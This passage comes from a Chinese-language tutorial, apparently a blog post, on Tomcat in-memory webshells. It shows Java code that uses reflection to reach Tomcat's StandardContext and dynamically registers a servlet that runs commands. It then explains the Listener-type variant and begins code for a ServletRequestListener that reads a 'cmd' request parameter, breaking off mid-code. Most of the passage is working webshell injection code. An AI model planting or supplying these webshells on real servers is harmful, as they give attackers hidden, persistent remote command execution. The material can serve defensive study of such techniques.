 ```java
            }
            response.getWriter().print("<pre>" + result.toString() + "</pre>");


        }

        @Override
        public String getServletInfo() {
            return null;
        }

        @Override
        public void destroy() {

        }
    };
    Class<? extends HttpServletRequest> aClass = request.getClass();
    Field declaredField = aClass.getDeclaredField("request");
    declaredField.setAccessible(true);
    Request req=(Request) declaredField.get(request);
    StandardContext standardContext=(StandardContext) req.getContext();

    String name=servlet.getClass().getSimpleName();
    Wrapper wrapper = standardContext.createWrapper();
    wrapper.setName(name);
    wrapper.setLoadOnStartup(1);
    wrapper.setServlet(servlet);
    wrapper.setServletClass(servlet.getClass().getName());

    standardContext.addChild(wrapper);
    standardContext.addServletMappingDecoded("/servlet",name);
```

访问对应的jsp让其完成动态注入,接着就可以在对应路径执行命令了



## Listener型内存马

在Tomcat中,自定义了很多继承于EventListener接口的对象,应用于各个对象的监听

在继承了这个接口的对象中,有一个ServletRequestListener,它用于监听ServletRequest的生成和销毁,也就是说,只要访问该网站资源,就会触发requestInitialized方法

<img src="https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220420140012800.png" alt="image-20220420140012800" style="zoom: 50%;" />

在`StandardContext#fireRequestInitEvent`方法中,进行了对listener中初始化方法的调用

![image-20220420140848773](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220420140848773.png)

综上所述,只需要创建一个`ServletRequestListener`并且将其添加到`StandardContext`中的`ApplicationEventListeners`就行了

```java

    ServletRequestListener servletRequestListener = new ServletRequestListener(){

        @Override
        public void requestDestroyed(ServletRequestEvent sre) {

        }

        @Override
        public void requestInitialized(ServletRequestEvent sre) {

            String cmd = request.getParameter("cmd");
            StringBuffer result = new StringBuffer();
```